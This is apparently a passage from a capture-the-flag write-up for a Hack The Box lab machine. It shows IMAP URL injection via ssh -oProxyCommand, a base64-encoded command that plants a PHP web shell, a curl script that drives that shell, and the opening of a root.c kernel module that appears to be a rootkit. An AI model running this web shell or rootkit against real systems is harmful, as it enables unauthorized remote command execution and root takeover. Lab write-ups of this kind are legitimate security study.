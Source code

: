 
{% include image.html image_alt="8bd84dee.png" image_src="/d2fa076e-05e6-4e08-93f8-225223643d3c/8bd84dee.png" %}


Long story short, the vulnerability arises because `rsh` is symbolic-linked to `ssh`. And the IMAP URL is passed to `ssh` in its entirety. That's why you see `-oProxyCommand` above.

Let's do something similar like what happened to `ib01c03`—we `echo` a `shell.php` to the base directory.

```
# echo 'echo "<?php echo shell_exec(\$_GET[0]); ?>" > ../shell.php' | base64 -w0 && echo
ZWNobyAiPD9waHAgZWNobyBzaGVsbF9leGVjKFwkX0dFVFswXSk7ID8+IiA+IC4uL3NoZWxsLnBocAo=
```

Simply replace the original `base64`-string with our own. Once that's done, we'll re-purpose the previous `bash` script for `ib01c01`.

<div class="filename"><span>ib01c01.sh</span></div>

```bash
#!/bin/bash

HOST=www.pwnhats.htb
CMD=$(urlencode $@)

curl -s \
     "http://$HOST/shell.php?0=$CMD"
```

The file `user.txt` is in `ib01c01`'s home directory.


{% include image.html image_alt="8016b522.png" image_src="/d2fa076e-05e6-4e08-93f8-225223643d3c/8016b522.png" %}


## Privilege Escalation

There was something else in the network packet capture that caught my attention.

<div class="filename"><span>root.c</span></div>

```c
#include <linux/init.h>   
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/device.h>
#include <linux/fs.h>    
#include <asm/uaccess.h>
#include <linux/slab.h>
#include <linux/syscalls.h>
#include <linux/types.h>
#include <linux/cdev.h>
#include <linux/cred.h>
#include <linux/version.h>

#define  DEVICE_NAME "ttyR0"
#define  CLASS_NAME  "ttyR"

#if LINUX_VERSION_CODE > KERNEL_VERSION(3,4,0)
#define V(x) x.val
#else
#define V(x) x
#endif

// Prototypes
static int     __init root_init(void);
static void    __exit root_exit(void);
static int     root_open  (struct inode *inode, struct file *f);
```

[1]: https://www.hackthebox.eu/home/machines/profile/202
[2]: https://www.hackthebox.eu/home/users/profile/9631
[3]: https://www.hackthebox.eu/